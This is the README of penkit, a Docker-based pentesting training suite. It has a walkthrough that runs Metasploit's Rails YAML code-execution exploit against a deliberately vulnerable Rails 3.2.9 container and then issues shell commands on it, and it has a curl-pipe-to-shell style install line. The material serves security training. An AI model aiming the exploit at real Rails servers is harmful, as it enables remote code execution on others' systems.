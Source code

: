 # penkit

[![Gem Version](https://badge.fury.io/rb/penkit.svg)](https://badge.fury.io/rb/penkit)
[![build status](https://gitlab.com/penkit/penkit/badges/master/build.svg)](https://gitlab.com/penkit/penkit/commits/master)
[![coverage report](https://gitlab.com/penkit/penkit/badges/master/coverage.svg)](https://gitlab.com/penkit/penkit/commits/master)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](http://penkit.io/legal/LICENSE.txt)

Penkit is a software suite designed to hone your pentesting skills. Using the power and flexibility of docker, we are able to build controlled, isolated environments for reproducing virtually any software vulnerability out there. Penkit has two major components: our strictly maintained image catalog and our full featured CLI application.

## Getting started

Penkit has only a couple of requirements and three different install options.

### Prerequisites

- Linux or OSX (x86-64)
- Docker 1.13+
- Ruby and rubygems (optional)

### Installation

#### Option 1: Quick install

Try our easy install script. ([view source](https://get.penkit.io))

```bash
$ wget -qO- https://get.penkit.io | sh
```

#### Option 2: Ruby gem

You can install the penkit gem directly from [rubygems.org](https://rubygems.org/gems/penkit):

```bash
$ gem install penkit
$ penkit help
```

#### Option 3: Docker image

If you don't have ruby, then you can use the penkit Docker image:

```bash
$ docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock penkit/cli help
```

#### Option 4: Bash wrapper

If docker commands are a hassle to you, just download our bash wrapper:

```bash
$ wget -O /usr/local/bin/penkit https://gitlab.com/penkit/penkit/raw/master/scripts/penkit
$ chmod +x penkit
$ penkit  help
```

### Usage

Take penkit for a spin with this quick rails exploit:

#### 1. Start a vulnerable rails container
```bash
$ penkit start rails:3.2.9
```

#### 2. Run exploit against the container using metasploit
```bash
$ penkit metasploit -x " \
  use exploit/multi/http/rails_xml_yaml_code_exec; \
  set RHOST rails; \
  set RPORT 8080; \
  run"
```

#### 3. Run shell commands on the compromised rails container
```bash
whoami
pwd
ls
```

#### 4. Stop the remote shell and metasploit
```bash
^ctrl-C
exit
```

#### 5. Clean up our penkit containers
```bash
$ penkit rm
```

#### 6. Learn more with integrated help
```bash
$ penkit help
```

## Contributing

Penkit is open-source, and we welcome contributions!

- [Open an issue](https://gitlab.com/penkit/penkit/issues)
- [Create a fork](https://gitlab.com/penkit/penkit/forks/new)

### Development

Local development requires ruby and bundler:

```bash
$ git clone git@gitlab.com:your_user/penkit penkit
$ cd penkit
$ bundle install
$ bundle exec penkit help
```

### Testing

Most of the tests for the Penkit CLI are ran through rspec:

```bash
$ bundle exec rspec
```

## License

Penkit is released under the [MIT License](LICENSE).
